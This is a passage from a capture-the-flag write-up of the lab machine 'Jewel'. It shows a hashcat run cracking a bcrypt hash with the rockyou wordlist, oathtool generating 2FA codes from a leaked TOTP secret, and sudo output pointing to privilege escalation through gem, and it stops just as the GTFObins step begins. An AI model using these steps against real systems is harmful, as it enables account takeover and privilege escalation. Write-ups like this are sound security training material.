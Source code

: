 
The run:

    
    
    !time hashcat -m {mode} ./hashes /content/wordlists/rockyou.txt --user
    

It broke pretty quickly:

    
    
    $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW:spongebob
    

### 2FA

With bill’s password, I tried `sudo -l` again. The password was accepted, but
it returned another prompt:

    
    
    bill@jewel:~/blog/config$ sudo -l
    [sudo] password for bill: 
    Verification code:
    

This is likely the two factor request that the `.google_authenticator` was
about.

On my local machine I installed [oathtool](https://www.nongnu.org/oath-
toolkit/man-oathtool.html) with `apt install oathtool`. Now I can run it and
it will show me the code at any given time. In fact, I can run it with `watch`
and it will update every 2 seconds with the current token.

    
    
    root@kali# oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4'
    699658
    

Now I can see what bill can `sudo`:

    
    
    bill@jewel:~$ sudo -l
    [sudo] password for bill: 
    Verification code: 
    Matching Defaults entries for bill on jewel:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
        insults
    
    User bill may run the following commands on jewel:
        (ALL : ALL) /usr/bin/gem
    

It is important to make sure that your local clock is in sync with the clock
on Jewel, as this is a time based code.

### gem

Since bill can run `sudo gem`, now is a good time to check
[gtfobins](https://gtfobins.github.io/gtfobins/gem/#sudo), which provides the
following:
